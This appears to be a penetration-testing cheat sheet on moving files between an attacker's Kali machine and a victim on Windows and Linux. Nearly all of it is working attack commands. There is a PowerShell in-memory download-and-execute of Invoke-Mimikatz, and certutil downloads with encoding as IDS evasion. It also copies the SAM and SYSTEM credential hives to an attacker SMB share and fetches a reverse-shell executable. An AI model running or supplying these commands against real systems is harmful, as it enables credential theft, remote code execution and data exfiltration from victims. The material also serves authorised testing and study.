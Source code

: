 # File-Transfert-Methods

# Windows Methods

#### Powershell - Download in memory
```
IEX (New-Object Net.WebClient).DownloadString('http://192.168.119.194:8000/Invoke-Mimikatz.ps1')
```

#### Powershell - Download in folder
Detected by Antivirus and SIEM tools such as Varonis
```
IEX (New-Object Net.WebClient).DownloadFile("http://192.168.119.194:8000/mimikatz.exe","C:\temp\mimikatz.exe")
```

***Important Note :*** In case of cmd shell and not powershell prompt, you can execute powershell command using "powershell -c 'COMMAND'". As exemple :
C:\Users\bill\Documents>powershell -c "(New-object System.Net.WebClient).DownloadFile('http://10.0.0.1:8000/myreverseshell.exe','C:\tmp\myreverseshell.exe')"

#### TFTP 
On the old Windows version sur as Windows XP, Windows 2000

On kali linux
(/tftp is a specific folder where the fille have to be put before to be uploaded on the victim. The uploaded file from the victim will be put here also)
```
atftpd --daemon --port 69 /tftp
```
On Windows
```
➤  Upload
tftp -i http://192.168.119.194:8000/ put filename
➤  Download 
tftp -i http://192.168.119.194:8000/ get filename
```

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Certutil

Basic transfert
```
certutil.exe -urlcache -split -f http://192.168.119.194:8000/mimikatz.exe output.file
```
Encoded transfert - Basic IPS/IDS evasion
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -urlcache -split -f "http://192.168.119.194:8000/mimikatz.txt" mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe
```

#### Copy
Upload a file from the Windows victim machine to the kali attacker machine.

```
#On the attacker kali machine, deploy a smb server
sudo python3 /opt/impacket/examples/smbserver.py kali .

#On the windows victime machine, upload the file
copy C:\Windows\Repair\SAM \\AttackerIP\kali\
copy C:\Windows\Repair\SYSTEM \\AttackerIP\kali\
```

**Note:** The files are stored in the folder where the shell execute the command not in the impacket folder or kali folder. As example, If you execute the command "sudo python3 /opt/impacket/examples/smbserver.py kali ." from the /home/kali/test/ folder, the files will be stored inside.


#### Evil-winrm
Upload a file from the Windows victim machine to the kali attacker machine.

```
*Evil-WinRM* PS C:\Users\victim\Desktop> download sam
Info: Downloading C:\Users\victim\Desktop\sam to sam                 
Info: Download successful!
```


# Linux Methods

#### Curl
```
curl http://192.168.119.194:8000/mimikatz.exe --output mimikatz.exe
```

#### Wget
```
wget -O mimikatz.exe http://192.168.119.194:8000/mimikatz.exe
```

#### Bypass IPtable using SCP through SSH
```
In the case of IPtable restrict the possibility to upload a file on the victim machine.
If you have a ssh connection using a id-rsa key, you could try the SCP tool to upload the file through the SSH connection.

➤ Prerequisite : Have a ssh connection (id-rsa)

➤ Error :
wget -O test.txt http://192.168.1.1:443/test.txt
--2022-03-13-- http://192.168.1.1:443:test.txt
Connecting to 192.168.1.1:443 ...

➤ Command :

• From the attacker machine, download something from the victim machine (using password)
# scp <file_to_download> <username>@<ip>:/<location> <where_to_upload>
root# scp myfile.txt user@10.0.0.1:/home/user
user@10.0.0.1's password:
OR for download a complete repository 
root# scp myfile.txt user@10.0.0.1:/home/user/* .

• From the the attacker machine, download something from the victim machine (using ssh key)
# scp -i <ssh_key>  <username>@<ip>:/<location>/<file> <where_to_upload>
scp -i sshkey.pem user@10.0.0.1:/home/user/test.txt /tmp/
OR
scp victim@10.10.120.172:/home/victim/myexamplefile.zip .

• From the attacker machine, upload something on a the victim machine
root# scp -i ~/.ssh/id_rsa myfile.txt user@10.0.0.1

• From the victim machine, upload something on the attacker machine
scp myfile root@10.0.0.1:/home/kiosec/Documents/
scp myfile.txt root@10.0.0.1:/root/ .

using a custom port, you can specify it with the -P flag:
scp -P 2222 myfile root@10.0.0.1:/home/kiosec/Documents/

copy an entire directory, use the -r flag for recursive copy:
scp -r /path/to/local/folder root@10.0.0.1:/home/kiosec/Documents/

```
